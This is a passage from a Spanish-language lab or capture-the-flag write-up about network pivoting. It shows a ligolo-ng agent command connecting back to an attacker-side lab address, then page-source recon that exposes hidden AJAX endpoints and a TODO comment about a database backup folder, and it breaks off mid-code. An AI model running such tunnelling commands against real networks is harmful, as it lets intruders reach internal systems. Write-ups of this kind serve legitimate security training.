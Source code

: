 ```
./agent -connect 10.10.14.12:11601 -ignore-cert # attacked # chmod 777

ligolo-ng » session
ligolo-ng » start
```
## Recon del Pivoting
#### Vemos que hay una web 

![alt text](/images/r5.png)

Al hacer `ctrl + u` vemos algo interesante
```	
function getData() {
    $.ajax({
        url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=get hits",
        cache: false,
        dataType: "text",
        success: function (data) {
            console.log("Number of hits:", data);
        },
        error: function () {
            // Manejo de errores
        }
    });
}

function incrCounter() {
    $.ajax({
        url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=incr hits",
        cache: false,
        dataType: "text",
        success: function (data) {
            console.log("HITS incremented:", data);
        },
        error: function () {
            // Manejo de errores
        }
    });
}				
TODO
*
* 1. Share the web folder with the database container (Done)
* 2. Add here the code to backup databases in /f187a0ec71ce99642e4f0afbd441a68b folder
* ...Still don't know how to complete it...

function backupDatabase() {
    $.ajax({
        url: "8924d0549008565c554f8128cd11fda4/ajax.php?backup=...",
        cache: false,
```